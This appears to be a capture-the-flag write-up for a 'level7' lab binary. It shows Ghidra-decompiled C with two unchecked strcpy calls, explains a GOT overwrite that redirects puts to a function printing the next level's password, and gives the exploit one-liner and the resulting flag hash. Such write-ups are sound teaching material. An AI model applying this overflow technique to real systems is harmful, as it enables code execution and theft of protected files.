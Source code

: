 get the binary on host
* `scp -P 4242 level7@192.168.56.107:./level7 ./binary/level7`

decompile using ghidras
```c
                undefined4 main(undefined4 param_1,int param_2)
                {
                    undefined4 *puVar1;
                    undefined4 uVar2;
                    undefined4 *puVar3;
                    
                    puVar1 = (undefined4 *)malloc(8);
                    *puVar1 = 1;
                    uVar2 = malloc(8);
                    puVar1[1] = uVar2;
                    puVar3 = (undefined4 *)malloc(8);
                    *puVar3 = 2;
                    uVar2 = malloc(8);
                    puVar3[1] = uVar2;
                    strcpy(puVar1[1],*(undefined4 *)(param_2 + 4));
                    strcpy(puVar3[1],*(undefined4 *)(param_2 + 8));
/*080485c2*/        uVar2 = fopen("/home/user/level8/.pass", "r");
/*080485eb*/        fgets(c,68,uVar2);
/*080485f0*/        puts("~~");
                    return 0;
                }
/*080484f4*/    void m(void)
                {
                    undefined4 uVar1;
                    
                    uVar1 = time(0);
                    printf("%s - %d\n",c,uVar1);
                    return;
                }
```

GOT Overwrite, replace puts return by function m\
We need addr of `m()`, `puts()` and `the offset for puVar1[1]`
* m addr ====> 0x0804 84f4
* puts addr => 0x08049928
* offset is 20


```
$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
